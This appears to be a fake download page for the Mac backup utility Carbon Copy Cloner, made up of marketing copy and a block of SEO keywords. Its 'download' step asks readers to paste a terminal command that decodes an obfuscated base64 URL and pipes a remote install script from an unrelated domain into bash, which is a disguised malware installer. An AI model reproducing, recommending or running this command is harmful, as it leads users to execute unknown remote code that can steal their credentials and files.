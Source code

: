 # Carbon Copy Cloner for Mac Download - The Ultimate Backup Solution

![Carbon Copy Cloner Screenshot 1](https://www.tegakari.net/wp-content/uploads/2023/06/carbon_copy_cloner_img.jpg)

---

### 🔽 Download Carbon Copy Cloner for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Carbon Copy Cloner for Mac?

Carbon Copy Cloner (CCC) remains the gold standard in macOS backup utilities, offering professional-grade data protection trusted by users worldwide for over 20 years. Going far beyond basic backup functionality, CCC delivers complete peace of mind through its bootable backup technology and exact disk replication capabilities.

Key features include:
- Instant bootable backup creation for emergency recovery
- Flexible scheduling with incremental backup options
- Lightning-fast block-level copying technology
- Full compatibility with all APFS volume features
- Powerful automation for repetitive tasks
- Time Machine-like snapshots with version preservation
- Comprehensive disaster recovery toolkit
- Customizable email alerts and notifications

What makes Carbon Copy Cloner exceptional is its ability to generate perfect 1:1 copies of macOS system drives that can be immediately used when disaster strikes. The software meticulously logs and verifies every backup operation, guaranteeing complete data accuracy. Professionals value the unprecedented control over backup parameters, while casual users enjoy simplified preset configurations and step-by-step guides.

Creative professionals (photographers, videographers), software developers, and enterprise IT departments consistently rely on CCC for its unmatched reliability and advanced functionality that surpasses Apple's native Time Machine in every aspect. The software also includes specialized tools for migrating systems, upgrading drives, and maintaining legacy backups.

![Carbon Copy Cloner Screenshot 2](https://bombich.com/img/site/hero-narrow.jpg)

---

## Key Features & Benefits 🛡️

- 💽 Create bootable backup drives
- ⏰ Scheduled incremental backups
- 🔄 Block-level copying
- 📊 Detailed operation logs
- 🚨 Disaster recovery
- 📧 Email notifications
- 🖥 Full APFS support
- 🤖 Task automation

---

## Keywords

Carbon Copy Cloner for Mac, Carbon Copy Cloner Mac Download, Carbon Copy Cloner for Mac Download, Carbon Copy Cloner Mac, Carbon Copy Cloner Download Mac, Carbon Copy Cloner Download for Mac, Carbon Copy Cloner full version, Mac Download Carbon Copy Cloner, Download Mac Carbon Copy Cloner, Download Carbon Copy Cloner Mac, Download Carbon Copy Cloner for Mac
